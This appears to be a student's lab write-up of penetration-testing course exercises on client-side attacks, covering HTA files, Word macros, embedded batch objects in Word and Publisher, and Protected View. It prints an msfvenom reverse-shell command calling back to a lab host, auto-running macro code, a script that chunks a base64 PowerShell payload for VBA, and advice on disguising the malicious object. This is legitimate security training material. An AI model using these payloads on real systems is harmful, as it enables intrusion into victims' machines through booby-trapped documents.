 # 13.2.3 Leveraging HTML Application
#### Exercises
_(To be performed on your own Kali and Windows lab client machines)_

**1.  Use msfvenom to generate a HTML Application and use it to compromise your Windows client.**

If a file is saved as with an .hta instead of an .htm extension, internet explorer will automatically interpret it as HTML and off the ability to execute using mshta.exe. Since the HTML application is being executed outside the safety of the browser, we are free to use dangerous legacy code that may normally be blocked within the browser. For the following example we are going to leverage ActiveXObjects.

The following PoC should launch the calculator in our test environment:
```
<html>
<body>

<script>

  var c= 'calc.exe'
  new ActiveXObject('WScript.Shell').Run(c);
  
</script>

</body>
</html>
```

Placing this in our html folder on our kali machine and then navigated to the poc.hta endpoint on our windows test machine and we see the following:
![[ie_poc_open.png]]

When we run the PoC we get a successful calc.exe command:
![[calc_open.png]]


Now we can move into utilizing msfvenom to alter our hta page and create a new powershell based payload. We can use the following command:
`sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o /var/www/html/reverse.hta`

Once generated, we need to setup a listener on the specified port and navigate to the endpoint on our Windows test machine and we will get a reverse shell.

![[reverse_poc_poc.png]]
![[rev_shell.png]]

**2.  Is it possible to use the HTML Application attack against Microsoft Edge users, and if so, how?**
Yes, upon testing with Microsoft Edge the hta file was successful in obtaining a reverse shell.

![[rverse_poc_download.png]]
![[reverse_poc_run.png]]
Upon clicking "Run" we recieve our connection.
![[rev_shell2.png]]


# 13.3.3 Microsoft Word Macro
#### Exercises
**1. Use the PowerShell payload from the HTA attack to create a Word macro that sends a reverse shell to your Kali system.**

To start, we need to create a framework for our Microsoft Word macro. We use the following code as that framework:
```
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "cmd"
  
End Sub

```
This includes the AutoOpen and Document_Open procedures, which will cause the macro to run automatically.

Upon reopening the document, we see that a warning is present warning that macros are enabled.
![[enable_content.png]]

Once the victim clicks "Enable Content" our PoC macro executes and we see cmd.exe.
![[command_cmd.png]]

From here we are going to turn to Powershell in order to reuse our Metasploit shellcode. We first declare a variable called "Str".  From there we need to set our variable to the base64 encoded string of the shellcode. As VBA has a 255 character limit for strings we can split the command into multiple lines before concatenated them. To do this we will use the following python code.

```
str = "powershell.exe -nop -w hidden -e BASE64_ENCODED_SHELL....."

n = 50

for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```
We then update our macro to include this newly split shellcode and to run the variable "Str" which is set to this shellcode.
![[word_macro_shell.png]]

From here, we just need to start a listener and open the document and we recieve our reverse shell.
![[rev_shell_3.png]]

# 13.3.5 Object Linking and Embedding
#### Exercises
_(To be performed on your own Kali and Windows lab client machines)_

**1.  Use the PowerShell payload to create a batch file and embed it in a Microsoft Word document to send a reverse shell to your Kali system.**

To begin, we need to create a batch to be embedded into Microsoft Word. To do this we simply echo our base64 encoded shellcode into an object named "lanch.bat" 
![[create_payload.png]]

We then need to open Microsoft Word and insert our launch.bat object.
![[new_object.png]]

We can even change the name and icon of the malicious file to be more inconspicuous. 
![[object_rename.png]]

Once we open our Word document and launch our object we will recieve a reverse shell.
![[object_launch.png]]

# 13.3.7Evading Protected View
#### Exercises
_(To be performed on your own Kali and Windows lab client machines)_

**1.  Trigger the protection by Protected View by simulating a download of the Microsoft Word document from the Internet.**

We can trigger the Protected View by simply downloading our document from our Apache web server.
![[doc_download.png]]
![[doc_protected_view.png]]

**2.  Reuse the batch file and embed it in a Microsoft Publisher document to receive a reverse shell to your Kali system.**

Creating the object in Microsoft Publisher using our previous methods allows us to gain a reverse shell.
![[publisher_object_launch.png]]
Once the object is run we receive our connection.
![[rev_shell_4.png]]


**3.  Move the file to the Apache web server to simulate the download of the Publisher document from the Internet and confirm the missing Protected View.**

Once we move the Publisher file to our Apache server and download the file we can see that the "Protected View" is no longer present.

![[publisher_download.png]]![[publisher_object.png]]